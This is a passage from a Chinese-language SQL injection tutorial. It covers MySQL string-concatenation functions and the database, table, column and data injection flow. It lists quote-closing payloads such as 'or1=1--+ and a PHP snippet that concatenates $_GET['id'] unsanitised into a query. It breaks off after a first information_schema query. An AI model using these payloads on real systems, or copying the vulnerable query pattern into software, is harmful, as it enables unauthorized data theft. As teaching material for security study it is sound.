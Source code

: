 

字符串连接函数函数


•1.concat(str1,str2,...)——没有分隔符地连接字符串2.concat_ws(separator,str1,str2,...)——含有分隔符地连接字符串3.group_concat(str1,str2,...)——连接一个组的所有字符串，并以逗号分隔每一条数据

说着比较抽象，其实也并不需要详细了解，知道这三个函数能一次性查出所有信息就行了

## 0X03 注入流程

![img](https://pic1.zhimg.com/80/v2-c3b0089b24618b3396929a39b1ce6c9b_hd.jpg)

•我们的数据库存储的数据按照上图的形式，一个数据库当中有很多的数据表，数据表当中有很多的列，每一列当中存储着数据。我们注入的过程就是先拿到数据库名，在获取到当前数据库名下的数据表，再获取当前数据表下的列，最后获取数据。

获取数据库——数据表——列——数据

在可以提交的参数后添加：

* Ps: --+可以用#替换，url提交过程中Url编码后的#为%23
* or1=1--+
* 'or1=1--+
* "or1=1--+
* )or1=1--+
* ')or1=1--+
* ")or1=1--+
* "))or1=1--+

一般的代码为：

```php
$id=$_GET['id'];
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

此处考虑两个点，一个是闭合前面你的``‘``另一个是处理后面的``‘``，一般采用两种思路，闭合后面的引号或者注释掉，注释掉采用``—+``或者``#（%23）``


**Step1：找出数据库**

•数据库：

```sql
Select schema_name from information_schema.schemata
```

![img](https://github.com/Anthem9/everyday/raw/master/image/v2-4e85ec34eef6eff65d9d9c65c5f983d5_hd.jpg)
